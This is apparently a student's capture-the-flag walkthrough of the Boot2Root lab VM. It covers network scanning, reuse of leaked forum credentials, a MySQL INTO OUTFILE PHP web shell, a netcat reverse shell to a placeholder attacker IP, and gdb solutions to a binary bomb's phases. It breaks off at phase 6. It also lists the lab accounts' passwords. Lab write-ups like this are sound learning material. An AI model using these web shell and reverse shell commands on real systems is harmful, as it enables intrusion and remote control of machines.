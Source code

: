 installer kalilinux
sudo apt-get install gobuster

scanner le réseau avec nmap
cmd : nmap -sP 192.168.0-255.0/24

get the ip of the virtual machine

nmap the ip of the machine (there are on ports) port 80 et 443 open -> web server
cmd : nmap --top-ports 1000 -T4 -sC http://example.com
	OR
open armitage and scan within the range of the virtual machine

Go to the ip of the virtual machine on internet or curl it. There is a page.

nikto -h + adress ou dirb sur l'ip de la machine en http et https
cmd: nikto -h https://ip_machine
OR
cmd: dirb https://ip_machine

phpmyadmin + forum + mail

User login try !q\]Ej?*5K5cy*AJ in forum 6
(maybe password misstype?)
And right after that lmezard logged in, maybe it was a mistake from his part ..

user: lmezard
pwd: !q\]Ej?*5K5cy*AJ

Try to send mail to admin when you're logged in
your mail is : laurie@borntosec.net

We still have the webmail we didn't use, we try to logged on it with the mail adress and
the same pwd we still have.
Connecting to mail at webmail works.

In the mail we have the logged for phpmyadmin.
Connecting to db via the mail from the admin
user: root
pwd: Fg-'kKXBj87E:aJ$

If we go here ip_machine/icons/README, we see that the server is running on apache, by default the directory is /var/www

We need this command
INSERT INTO `mlf2_entries_cache`(`cache_id`, `cache_text`) VALUES (12,LOAD_FILE("/var/www/forum/index.php"))

We have the right to write in compile dir

If we look at the code we have directory, we can try to put in some file with that mysql command

select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/test.php"

the good dir is /var/www/forum/templates_c/test.php (who is the compile dir in index.php)

reverse shell on that website without -e
https://www.nicolashug.com/pentest-et-securite/netcat-reverse-shell-e
launch on kali : nc -nvlp 1234
cmd in the php exploit : mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc MY_IP 1234 1>/tmp/backpipe

directory /home/LOOKATME
cd /home/LOOKATME; cat password
there is something on the password
user: lmezard
pwd: G!@M6f4Eatau{sF"

got a file called fun
need to parse it
I try to send it into a html in the dir i have the right and parse it.. But i was wrong
The file is actually a .tar
So i open a ssh port on the kali machine and connect it via lmezard account to copy it with scp and then untar it (tar -xzf fun)
We have the position of each file with //fileXX
I unrar it but there is still parsing to do. I have to get a "\n" at the end of each to escape the //file of the previous file so that the next line isn't escape. It works !
I have a message who tell me to ssh a pass.. let's do it

The result is used to login with user laurie in ssh
user: laurie
pwd: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

We see the bomb with a file readme
Bomb is compiled, we use hexray (ida64)

gdb --args ./bomb l To launch with arguments if needed

PHASE_1

	We see that the first_phase is a strcmp with "Public speaking is very easy."
	We type it -> victory
	We can see the adress with gdb if we disas phase_1 and x/s (for the character) and the adress of the register
	In strings not equal :
		Our 		x/s *0xBFFFF6F0
		Theirs 		x/s *0xBFFFF6F4


PHASE_2

	we need to disas phase_2,
	got this line :
		0x08048b56 <+14>:	lea    -0x18(%ebp),%eax
		0x08048b59 <+17>:	push   %eax
		0x08048b5a <+18>:	push   %edx
		0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
		- So we push the adress of %ebp in read_six_numbers

		0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)
		0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
		0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
		- Here if the first number of ebp isn't 1 we don't jump and we explode


	After that we launch gdb (yeah), and we disas phase_2 and put a breakpoint just before the cmp which is just before the explosion
	and we look at eax register each time with "info r"
	break *0x08048b7e

	We got 1 2 6 24 120 720

PHASE_3

	We have a switch, with a scanf on "%d %c %d". We disas it (again) and we get the first value
	is the key of the switch, the second is compare with a value that is set in the swith
	(different for each case) and the third value is a key not to explode for each case.
	Solutions : 

	0 q 777
	1 b 214
	2 b 755
	3 k 251
	4 o 160
	5 t 458
	6 v 780
	7 b 524

PHASE_4

	The phase 4 is a recursive funtion, with breakpoint with dgb, we saw that the answer is just 9

PHASE_5

	We have to put a string of lenght 6 which is changed in a while, it is passed in a strings_not_equal function, break in that function and we check our modified string at :
		x/s *0xBFFFF6E0
	theirs are :
		x/s *0xBFFFF6E4
	We brute force it by testing all characters like "abcdef" "ghijkl" etc..
	and we see how it is modified and note it like : 'o' is changed to 'g', 'p' is changed to 'i' etc..
	the result is opekmq

PHASE_6

